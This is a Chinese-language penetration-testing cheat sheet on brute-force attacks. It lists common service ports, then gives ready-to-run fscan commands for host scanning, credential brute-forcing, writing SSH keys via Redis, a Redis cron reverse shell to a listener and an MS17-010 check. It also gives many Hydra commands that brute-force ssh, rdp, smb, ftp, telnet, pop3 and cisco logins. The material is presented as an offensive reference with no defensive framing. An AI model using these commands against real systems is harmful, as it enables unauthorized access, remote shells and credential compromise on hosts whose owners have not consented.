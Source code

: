 # :fu:爆破

### 常见端口



|   端口    |                         说明                          |
| :-------: | :---------------------------------------------------: |
|    20     |           （数据传输）+ 21（认证） ftp服务            |
|    22     |               ssh服务（远程登录，管理）               |
|    23     |                telnet服务（远程管理）                 |
|    25     |      smtp服务（邮件传输协议）  110 po3（收邮件）      |
|    53     |                     dns 服务 查询                     |
|    139    |             （netbios 主机名局域网协议）              |
|    135    | （rpc通信协议）/445（smb认证传输）  smb  文件共享服务 |
|    445    |                    文件共享、域控                     |
|   1080    |                       socks代理                       |
|   1194    |                        openvpn                        |
|   1433    |                  MSsql数据库管理端口                  |
|   1521    |                 oracle数据库管理端口                  |
|   1701    |                       l2tp端口                        |
|   1723    |            PPTP VPN微软windows server vpn             |
|   3306    |                  mysql数据库管理端口                  |
|   6379    |                    redis数据库端口                    |
|   27017   |                   mongodb数据库端口                   |
| 5900-5910 |                      vnv远控端口                      |
|   7001    |                   weblogic默认管理                    |
|   8080    |              tomcat/jboss Java的web容器               |
|           |                                                       |

![image-20210730115224342](爆破/image-20210730115224342.png)



### 端口爆破

```sh
fscan -h 192.168.1.1-255  #扫存活主机
fscan.exe -h 192.168.1.1/24 -np -no -nopoc(跳过存活检测 、不保存文件、跳过web poc扫描)  
fscan.exe -h 192.168.1.1/24 -rf id_rsa.pub (redis 写公钥)  
fscan.exe -h 192.168.1.1/24 -rs 192.168.1.1:6666 (redis 计划任务反弹shell)  
fscan.exe -h 192.168.1.1/24 -c whoami (ssh 爆破成功后，命令执行)  
fscan.exe -h 192.168.1.1/24 -m ssh -p 2222 (指定模块ssh和端口)  
fscan.exe -h 192.168.1.1/24 -pwdf pwd.txt -userf users.txt (加载指定文件的用户名、密码来进行爆破)  
fscan.exe -h 192.168.1.1/24 -o /tmp/1.txt (指定扫描结果保存路径,默认保存在当前路径)   
fscan.exe -h 192.168.1.1/8  (A段的192.x.x.1和192.x.x.254,方便快速查看网段信息 )  
fscan.exe -h 192.168.1.1/24 -m smb -pwd password (smb密码碰撞)  
fscan.exe -h 192.168.1.1/24 -m ms17010 (指定模块)  
fscan.exe -hf ip.txt  (以文件导入)  
```

## hydra

## 暴力破解工具 Hydra （九头蛇）

**命令基本格式：**

hydra [[[-l LOGIN|-L FILE] [-p PASS|-P FILE]] | [-C FILE]] [-e nsr] [-o FILE] [-t TASKS] [-M FILE [-T TASKS]] [-w TIME] [-W TIME] [-f] [-s PORT] [-x MIN:MAX:CHARSET] [-SuvV46] [service://server[：PORT][/OPT]]

**参数详解：**

-R 根据上一次进度继续破解
-S 使用SSL协议连接
**-s 指定端口**
**-l 指定用户名**
**-L 指定用户名字典(文件)**
**-p 指定密码破解**
**-P 指定密码字典(文件)**
-e 空密码探测和指定用户密码探测(ns)
-C 用户名可以用:分割(username:password)可以代替-l username -p password
**-o 输出文件**
-t 指定多线程数量，默认为16个线程
**-vV 显示详细过程**
**server 目标IP**
**service 指定服务名(telnet ftp pop3 mssql mysql ssh ssh2......)**

-e nsr n为bull,空密码试探，s 用户名密码一直 r是倒转

root倒转toor



我们常常用于的服务ssh,ftp,pop3,smb,rdp

下面举几个命令的使用例子：爆破ssh
一般习惯用nmap扫一下主机，比如发现开放了22端口（一般就是ssh 了 nmap -A 看看是不是真的运行了ssh服务 ）



![图片](https://mmbiz.qpic.cn/mmbiz_png/3xxicXNlTXLicYgSicWYX3rD3K4lw7JafATa5q8nmscMNWS1WH3ibA8q7NugmicQiaQCVjC7DflCG88vWaC19JialVPJg/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)



![图片](https://mmbiz.qpic.cn/mmbiz_png/3xxicXNlTXLicYgSicWYX3rD3K4lw7JafATic8ZMIHDAkhSz81rmpE8fIq9rVvs3Yp6pLY9yh14HsE7icK7VicOuXEYg/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)



然后

hydra -l root -P /root/3389.txt ssh://192.168.2.134



![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)



使用ssh连接一下。



![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)



发现已近连接成功了

我们再说破解其他的模块：

使用hydra破解ssh的密码

hydra -L users.txt -P password.txt -vV -o ssh.log -e ns IP ssh



**破解teamspeak：**

\# hydra -l 用户名 -P 密码字典 -s 端口号 -vV ip teamspeak



**破解cisco：**

\# hydra -P pass.txt IP cisco

\# hydra -m cloud -P pass.txt 10.36.16.18 cisco-enable



**破解smb：**

\# hydra -l administrator -P pass.txt IP smb



**破解pop3：**

\# hydra -l muts -P pass.txt my.pop3.mail pop3



**破解rdp：**

\# hydra IP rdp -l administrator -P pass.txt -V



**破解http-proxy：**

\# hydra -l admin -P pass.txt http-proxy://10.36.16.18



**破解telnet**

\# hydra IP telnet -l 用户 -P 密码字典 -t 32 -s 23 -e ns -f -V



**破解ftp：**

\# hydra IP ftp -l 用户名 -P 密码字典 -t 线程(默认16) -vV

\# hydra IP ftp -l 用户名 -P 密码字典 -e ns -vV



```bash
 hydra  -l admin -P top100_cn.txt rdp://172.16.12.2
```

